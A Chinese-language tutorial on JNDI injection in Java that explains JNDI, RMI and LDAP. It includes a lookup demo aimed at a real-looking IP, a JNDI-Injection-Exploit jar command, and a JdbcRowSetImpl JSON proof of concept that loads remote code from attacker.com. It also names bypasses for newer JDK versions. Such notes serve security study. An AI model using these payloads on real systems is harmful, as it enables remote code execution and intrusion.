

什么是jndi？

JNDI：Java命名和目录接口

JNDI允许你通过一个唯一的名称来查找和访问在应用程序中需要使用的各种服务或资源，而不需要知道它们的具体位置或如何连接到它们的细节。这使得不同组件之间可以通过名称相互引用，而不需要了解对方的具体实现细节或网络位置，从而支持分布式应用的开发。


RMI：远程方法调用注册表

LDAP：轻量级目录访问协议

二者都可以进行远程调用对象，可以远程执行java代码class文件


```java
public class JndiDemo {
    public static void main(String[] args) throws NamingException {
        // 创建一个rmi ldap等服务调用
        InitialContext ini = new InitialContext();
        // 调用rmi ldap等服务对象类（远程服务）
        // ldap://47.94.236.117:1389/jsna19 = 远程地址的一个class文件被执行
        ini.lookup("ldap://47.94.236.117:1389/jsna19"); // 弹计算器
    }
}

```


JNDI远程调用

1、使用利用工具生成调用地址

```java
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A xx.xx.xx.xx
```

2、使用远程调用：

```
new InitialContext().lookup("ldap://xx.xx.xx.xx:1389/djasas");
new InitialContext().lookup("rmi://xx.xx.xx.xx:1099/daskdl");
```

除了JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，还有marshalsec工具


RMI-JNDI注入、LDAP-JNDI注入 与 JDK版本 的关系



也就是说JNDI注入是有条件的


marshalsec工具针对jdk高版本的修复，有绕过方法


在RMI服务中调用了InitialContext.lookup()的类有：

org.springframework.transaction.jta.JtaTransactionManager.readObject() 

com.sun.rowset.JdbcRowSetImpl.execute() 

javax.management.remote.rmi.RMIConnector.connect() 

org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName(String sfJNDIName)


所以poc一般这样写：

```
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "rmi://attacker.com/evil",
  "autoCommit": true
}
```


在LDAP服务中调用了InitialContext.lookup()的类有: 

InitialDirContext.lookup() 

Spring LdapTemplate.lookup() 

LdapTemplate.lookupContext()